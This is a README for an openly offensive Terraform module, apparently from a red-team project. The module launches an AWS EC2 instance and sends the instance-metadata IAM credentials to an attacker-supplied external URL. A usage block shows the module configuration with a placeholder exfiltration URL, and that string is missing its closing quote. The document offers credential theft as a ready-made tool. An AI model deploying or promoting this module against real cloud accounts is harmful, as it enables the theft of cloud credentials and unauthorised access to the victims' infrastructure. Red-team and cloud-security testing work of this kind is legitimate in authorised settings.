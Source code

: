 # AWS EC2 Instance Credential Exfiltration Module

![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-purple)

Offensive Terraform module which creates EC2 instance and exfilrate credential from Instance metadata to external URL.

![Attack Diagram](https://github.com/offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration/blob/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source = "offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration"

    subnet_id = "subnet-0a4a1cc04"
    url = "http://0.0.0.0/
    iam_role= "ec2-instance-role"
    iam_instance_profile = "ec2-instance-profile"
}
```
## Author
Module managed by https://github.com/offensive-terraform/


